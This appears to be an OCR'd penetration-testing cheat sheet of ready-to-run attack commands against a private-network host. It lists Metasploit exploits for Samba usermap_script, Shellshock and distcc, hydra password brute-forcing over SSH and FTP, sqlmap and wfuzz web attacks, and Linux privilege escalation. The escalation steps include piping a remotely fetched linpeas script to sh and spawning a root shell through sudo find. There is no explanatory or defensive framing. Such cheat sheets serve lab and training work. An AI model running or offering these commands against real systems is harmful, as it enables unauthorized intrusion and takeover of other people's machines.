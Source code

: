 ### 3. Common Linux Exploits
```bash
# Samba usermap_script
use exploit/multi/samba/usermap_script
set RHOST 192.168.200.20
exploit

# Shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST 192.168.200.20
set TARGETURI /cgi-bin/test.cgi
exploit

# DistCC
use exploit/unix/misc/distcc_exec
set RHOST 192.168.200.20
exploit
```

### 4. Password Attacks
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.200.20
hydra -L users.txt -P passwords.txt ftp://192.168.200.20
```

### 5. Web Application Attacks
```bash
sqlmap -u "http://192.168.200.20/login.php" --forms --batch
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt http://192.168.200.20/FUZZ
```

### 6. Privilege Escalation
```bash
# Automated Enumeration
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Manual Checks
find / -perm -4000 -type f 2>/dev/null  # SUID files
find / -writable 2>/dev/null            # Writable files
sudo -l                                 # Sudo permissions
cat /etc/crontab                       # Cron jobs
```

### 7. Common Linux PrivEsc Vectors
```bash
# SUID Exploitation
find / -perm -4000 -exec ls -la {} \; 2>/dev/null

# Sudo Misconfiguration
sudo -l
sudo find /etc/passwd -exec /bin/sh \;

# Cron Jobs
ls -la /etc/cron*
cat /etc/crontab

# Kernel Exploits
uname -a
searchsploit "Linux Kernel"
```

---